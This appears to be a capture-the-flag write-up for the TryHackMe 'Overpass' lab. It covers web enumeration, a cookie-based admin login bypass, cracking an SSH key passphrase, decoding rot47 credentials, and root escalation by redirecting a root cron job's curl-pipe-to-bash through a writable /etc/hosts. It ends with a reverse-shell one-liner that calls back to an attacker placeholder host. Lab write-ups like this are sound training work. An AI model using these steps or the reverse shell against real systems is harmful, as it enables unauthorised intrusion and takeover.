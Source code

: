 # [Overpass](https://tryhackme.com/room/overpass)

First order of business, download and analyze the [source code](http://box.ip/downloads/).

We can see that both functions `saveCredsToFile` and `loadCredsFromFile` the function `rot47` to "encrypt" the credentials. If you know a thing or 2 about crypto, you should know that `rot47` and other caeser ciphers are incredibly weak and can easily be cracked with pen and paper. Even the comment in the source code of the front page says it:

> Yeah right, just because the Romans used it doesn't make it military grade, change this?

Next, to check the web application.

The about us page at `/aboutus` has a few names we can use for enumeration and brute forcing

- Ninja
- Pars
- Szymex
- Bee
- MuirlandOracle

It also mentions the rockyou word list, which can be tested with the found potential username names.

Using `gobuster`, we can find the admin login page

```sh
$ gobuster dir -u 'http://box.ip/' -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html -t 100 -r -o root
/img                  (Status: 200) [Size: 183]
/index.html           (Status: 200) [Size: 2431]
/aboutus              (Status: 200) [Size: 1749]
/downloads            (Status: 200) [Size: 1987]
/admin                (Status: 200) [Size: 1525]
/admin.html           (Status: 200) [Size: 1525]
/css                  (Status: 200) [Size: 79]
/404.html             (Status: 200) [Size: 782]
```

Looking at the source for the `/admin` page, we see a `login.js`

![login.js in /admin](./admin-source.png)

Looking at the function `login()`, we can see that the page tells the user "Incorrect Credentials" if the credentials are incorrect and set the cookie "SessionToken" and goes back to `/admin` otherwise.

![function login()](./func-login.png)

This means that the only thing differentiating a logged in user and a non-logged-in user is having the cookie `SessionToken` set, which doesn't even include a value! To bypass the credential check, simple add the `SessionToken` cookie for the page in your browser and be shown an SSH key.

![/admin loggin in](./admin-logged-in.png)

We can then use that SSH key to log in to the server's SSH as James

```sh
$ ssh -i ssh-key james@box.ip
Enter passphrase for key 'ssh-key':
```

... but the key is password-protected. We can crack the password with John.

```sh
$ ssh2john ssh-key > ssh.john
$ john ssh.john ~/tools/SecLists/Passwords/Leaked-Databases/rockyou-50.txt
```

... and log in!

```sh
james@overpass-prod:~$ ls
todo.txt  user.txt

james@overpass-prod:~$ cat todo.txt
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

So Jame's password should be somewhere on the machine. If you look at the source code for overpass, you'll see in `main()` that all the encrypted data is in `~/.overpass`.

```sh
james@overpass-prod:~$ ls -la
total 48
drwxr-xr-x 6 james james 4096 Jun 27  2020 .
drwxr-xr-x 4 root  root  4096 Jun 27  2020 ..
lrwxrwxrwx 1 james james    9 Jun 27  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james  220 Jun 27  2020 .bash_logout
-rw-r--r-- 1 james james 3771 Jun 27  2020 .bashrc
drwx------ 2 james james 4096 Jun 27  2020 .cache
drwx------ 3 james james 4096 Jun 27  2020 .gnupg
drwxrwxr-x 3 james james 4096 Jun 27  2020 .local
-rw-r--r-- 1 james james   49 Jun 27  2020 .overpass
-rw-r--r-- 1 james james  807 Jun 27  2020 .profile
drwx------ 2 james james 4096 Jun 27  2020 .ssh
-rw-rw-r-- 1 james james  438 Jun 27  2020 todo.txt
-rw-rw-r-- 1 james james   38 Jun 27  2020 user.txt
james@overpass-prod:~$ cat .overpass
[REDACTED]
```

Knowing that everything is just `rot47`'d, we can have [cyberchef](https://gchq.github.io/CyberChef/#recipe=ROT47(47)) decrypt it to get the data

```
[{"name":"System","pass":"REDACTED"}]
```

If you check `/etc/crontab` (I found this using [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh)), you'll see an interesting cron job

```
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

Run by root, this `curl`s a file from `overpass.thm` and pipes it to `bash` for execution. It's generally a terrible idea to `curl` unknown files and pipe them to `bash` since it can lead to execution of arbitrary unknown code, but it should be safe in this case since the admins know exactly what the code is, right?

Well actually, no. The problem here is that we may not know for sure who `overpass.thm` is. Why? If you check `/etc/hosts`...

```sh
james@overpass-prod:~$ ls -l /etc/hosts
-rw-rw-rw- 1 root root 250 Jun 27  2020 /etc/hosts
```

... everyone has read/write permission to it! With this, we can edit `/etc/hosts` and change `overpass.thm` to be out attacking machine. To exploit, do the following:

1. Put this in `/etc/hosts`:

```
YOUR_IP overpass.thm
```

2. Create `downloads/src/buildscript.sh` on the attacking machine with something you wanna run, e.g. a reverse shell, and host it (don't forget to make it on port 80)

```sh
bash -c 'exec bash -i &>/dev/tcp/YOUR_IP/PORT <&1'
```

3. Listen for the call (runs every minute) and profit

Have fun with your root shell.
